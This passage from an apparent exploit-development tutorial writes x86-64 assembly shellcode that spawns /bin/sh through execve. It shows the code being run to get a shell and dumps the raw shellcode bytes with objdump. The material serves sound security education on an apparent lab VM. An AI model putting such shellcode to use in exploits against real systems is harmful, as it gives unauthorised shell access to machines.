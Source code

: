 Oops! we passed the first argument by value instead of an address, for this we shall store it on the stack:
```asm
global _start

section .text
_start:
; create a new stack frame
push rbp
mov rbp, rsp
sub rsp, 0x10

; arguments for execve
mov rdi, "/bin/sh"
mov QWORD [rsp-0x8], rdi
lea rdi, [rsp-0x8]
mov rsi, 0
mov rdx, 0

; call execve
mov rax, 59
syscall
```
```console
user@phoenix-amd64:~$ nasm -f elf64 -o test.o ourshellcode.s; ld test.o -o test.a
user@phoenix-amd64:~$ ./test.a
$ id
uid=1000(user) gid=1000(user) groups=1000(user),27(sudo)
$ exit
```

Nice, it works, let's see our actual shellcode (the raw instructions in hex form):
```console
user@phoenix-amd64:~$ objdump -d -M intel test.o

test.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <_start>:
   0:   55                      push   rbp
   1:   48 89 e5                mov    rbp,rsp
   4:   48 83 ec 10             sub    rsp,0x10
   8:   48 bf 2f 62 69 6e 2f    movabs rdi,0x68732f6e69622f
   f:   73 68 00
  12:   48 89 7c 24 f8          mov    QWORD PTR [rsp-0x8],rdi
  17:   48 8d 7c 24 f8          lea    rdi,[rsp-0x8]
  1c:   be 00 00 00 00          mov    esi,0x0
  21:   ba 00 00 00 00          mov    edx,0x0
  26:   b8 3b 00 00 00          mov    eax,0x3b
  2b:   0f 05                   syscall
```

